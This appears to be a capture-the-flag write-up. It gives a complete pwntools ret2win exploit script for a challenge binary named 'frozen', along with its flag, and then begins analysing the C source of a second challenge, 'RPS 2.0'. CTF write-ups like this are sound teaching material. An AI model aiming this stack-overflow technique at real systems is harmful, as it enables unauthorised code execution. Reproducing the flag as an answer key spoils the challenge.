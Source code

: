 Basic Ret2Win, offset 40, win() address given (arendelle) can be hardcoded. stack must be aligned with ret gadget for exploit `buffer + ret + arendelle`.

Solve Script:

```py
from pwn import *
context.log_level='debug'

p = remote('alpha.8059blank.ml', 3001)
elf = context.binary = ELF('./frozen')
rop = ROP('./frozen')

# given when program executes
arendelle = 0x401216
offset = 32 + 8 # rbp + 8, found in GDB

p.sendlineafter("Many paths lie ahead, but which path will be the Return to Arendelle?\n", flat(
        b"A"*offset,
        rop.ret.address, # necessary to align the stack
        arendelle
))

p.interactive()
```

Flag: `ACSI{w4rm_hug5}`

### RPS 2.0

> Rock Paper Scissors QOL Update, hope you like it~  
> 
> Author: Lucas

---

For this challenge, binary and source were given, as well as the rglddwapswthssf cheat sheet for reference. Let's take a
look at the source.

---

#### Analysing source

When we read through the source, we find this struct definition:

```c 
typedef struct choices {
  char choice[9];
} choices;
```

And it's used here:

```c 
    choices choices[15];
    memcpy(choices[0].choice, "Rock", 9);
    memcpy(choices[1].choice, "Gun", 9);
    memcpy(choices[2].choice, "Lightnig", 9);
    memcpy(choices[3].choice, "Devil", 9);
    memcpy(choices[4].choice, "Dragon", 9);
    memcpy(choices[5].choice, "Water", 9);
    memcpy(choices[6].choice, "Air", 9);
    memcpy(choices[7].choice, "Paper", 9);
    memcpy(choices[8].choice, "Sponge", 9);
    memcpy(choices[9].choice, "Wolf", 9);
    memcpy(choices[10].choice, "Tree", 9);
    memcpy(choices[11].choice, "Human", 9);
    memcpy(choices[12].choice, "Snake", 9);
```